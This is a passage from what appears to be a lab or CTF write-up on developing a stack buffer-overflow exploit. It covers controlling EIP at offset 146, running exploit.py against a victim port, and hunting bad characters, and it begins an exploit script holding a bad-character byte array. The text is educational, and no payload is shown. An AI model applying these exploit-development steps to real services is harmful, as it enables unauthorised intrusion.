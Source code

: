 To control EIP I had to do a few attempts but eventually found out a offset of 146 is what I needed.

```
python exploit.py $VICTIM 1337
```



<figure><img src="../../.gitbook/assets/image (70) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Finding Bad Characters

**Kali**

Now we changed the program to look for bad characters so we don't later use those bad characters when generating our payload. We do this by setting our payload to all possible characters, than follow EIP to see which characters aren't showing up. To do this we just have to keep running our exploit and removing the bad characters one by one. The bad characters found were: \x00\x0a

#### **exploit.py - Code Changes #1**

```
import socket, time, sys

#Bad chars found: \x00\x0a
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	ip = str(sys.argv[1])
```